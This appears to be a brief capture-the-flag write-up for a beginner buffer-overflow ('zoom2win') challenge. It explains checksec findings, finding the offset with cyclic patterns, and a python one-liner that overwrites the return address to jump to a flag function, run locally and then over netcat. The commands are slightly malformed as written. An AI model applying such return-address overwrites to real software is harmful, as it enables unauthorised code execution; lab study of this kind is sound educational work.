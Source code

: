 ### N o T e S

---

- First two steps, add permissions using chmod  +x file name.  
- Then, check the options and protections enabled using checksec --file.  
- Aim of the pwn challenge is generally to overflow the buffer and overwrite the return address.
- It redirects the program towards a function which outputs the flag.

```py
NO PIE - It means the executable file and server have the same coded source file and won't change each time the program loads.
NX ENABLED - We cannot inject our own shellcode to the stack and execute it.
NO STACK CANARY - We can overflow the buffer and there won't be any canaries.
PARTIAL RELRO - read and write availability.
```

---

Use Ghidra and GDB. 

```py
PUTS - It displays some output just like printf.
GETS - It reads some data just like scanf.

Finding the offset : 
1. Generate a cyclic pattern : cyclic 100.
2. The first four bytes in RSP is the offset.
3. Use cyclic -l <four bytes> to find the actual offset.
4. Use the offset to overflow the function and return statement.
```

---


```py
Steps : 
disassemble flag
(assume offset is 40)

We use the memory address of the first function in disassemble flag
(assume it is 0x0000000000401196)

python3 - C 'print "A" * 40 + "\x96\x11\x40\x00\x00\x00\x00\x00" ' 

(add this to a file payload)
python3 - C 'print "A" * 40 + "\x96\x11\x40\x00\x00\x00\x00\x00" ' > payload

echo "Fake_flag" > flag.txt
(Dummy flag for local file)

Now, run < payload 
(fake_flag will be printed)

./zoom2win < payload
fake_flag Segmentation fault

Now when we run the netcat command with the payload we get our flag.
```

---

Thank you

